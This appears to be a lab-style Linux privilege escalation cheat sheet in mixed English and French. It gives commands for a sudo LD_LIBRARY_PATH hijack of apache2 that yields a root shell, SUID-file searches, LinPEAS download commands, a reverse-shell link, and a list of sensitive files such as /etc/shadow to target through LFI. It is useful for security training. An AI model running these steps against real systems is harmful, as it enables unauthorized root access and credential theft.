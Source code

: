 Run ldd against the apache2 program file to see which shared libraries are used by the program:

    ```bash=
    ldd /usr/sbin/apache2
    ```

Create a shared object with the same name as one of the listed libraries (libcrypt.so.1) using the code located at /home/user/tools/sudo/library_path.c:

    ```bash=
    gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
    ```

Run apache2 using sudo, while settings the LD_LIBRARY_PATH environment variable to /tmp (where we output the compiled shared object):

    ```bash=
    sudo LD_LIBRARY_PATH=/tmp apache2
    ```

A root shell should spawn. Exit out of the shell. Try renaming /tmp/libcrypt.so.1 to the name of another library used by apache2 and re-run apache2 using sudo again. Did it work? If not, try to figure out why not, and how the library_path.c code could be changed to make it work.

### Recherche FIND spécifique

Rechercher des fichiers avec l'autorisation SUID :
```bash=
find / -user root -perm /4000 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
```


### LinPEAS - Linux Privilege Escalation Awesome Script

[LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

    ```bash=
    git clone https://github.com/carlospolop/PEASS-ng.git
    wget https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/linPEAS/linpeas.sh
    ```
## Reverse Shell

[Reverse Shell examples](https://highon.coffee/blog/reverse-shell-cheat-sheet/)

## LFI

 Linux system files that have sensitive information :
    ```bash=
    /etc/issue
    /etc/passwd
    /etc/shadow
    /etc/group
    /etc/hosts
    /etc/motd
    /etc/mysql/my.cnf
    /proc/[0-9]*/fd/[0-9]*   (first number is the PID, second is the filedescriptor)
    /proc/self/environ
    /proc/version
    /proc/cmdline
    ```

